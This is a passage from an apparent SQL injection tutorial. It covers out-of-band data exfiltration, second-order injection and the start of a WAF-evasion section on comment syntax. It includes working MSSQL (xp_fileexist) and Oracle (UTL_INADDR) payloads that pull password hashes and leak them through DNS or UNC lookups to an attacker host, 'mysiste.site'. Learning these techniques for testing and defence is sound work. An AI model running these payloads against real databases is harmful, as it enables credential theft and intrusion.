 ```sql
DECLARE @value varchar(1024);

SELECT @value = (SELECT TOP 1 MASTER.DBO.FN_VARBINTOHEXSTR(password_hash) FROM SYS.SQL_LOGINS WHERE name = 'name') + 'mysiste.site';

EXEC('MASTER..XP_FILEEXIST "\\'+@value+'"');
```

In Oracle we can the use *UTL_INADDR* package with the functions *GET_HOST_ADDRESS* and *GET_HOST_NAME*:

```sql
SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.mysiste.site') FROM DUAL
- or -
SELECT UTL_INADDR.GET_HOST_NAME((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.mysiste.site') FROM DUAL
```

&nbsp;
#### Exploiting Second-Order SQL Injection

The "firs-order" SQLi have steps similar to a challenge-response process. The result is returned to the attacker in a response.

In the "second-order" scenario, what's different is the sequence of events that occurs.

1. The attacker submits a malicious requests
2. The application stores the input and responds to the request
3. The attacker submits another request
4. To handle this new request, the app retrieves the previously stored input and processes it. This time the injected query is executed and the result is somehow returned to the attacker.

This kind of SQLis are very powerful and more difficult to detect and modern automated scanners are unable to perform the methodology for discovering them.

&nbsp;

### SQLi Evasion Techniques and WAF Bypassing

#### Pieces

When obfuscating SQL Injection vectors, knowing all the pieces we have and how to combine them is a great skill to have. Here we are going to explore the available 'gadgets' for the construction of an obfuscated payload.

&nbsp;

**1. Comments**

For our purposes, there are two specific cases: commenting out the query and obfuscating portions of our code.

MySQL Comment Syntax |
---------------------|----------
\#                   | Hash  
/*                   | C-style
-\- -                 | SQL
;%00                 | NULL byte
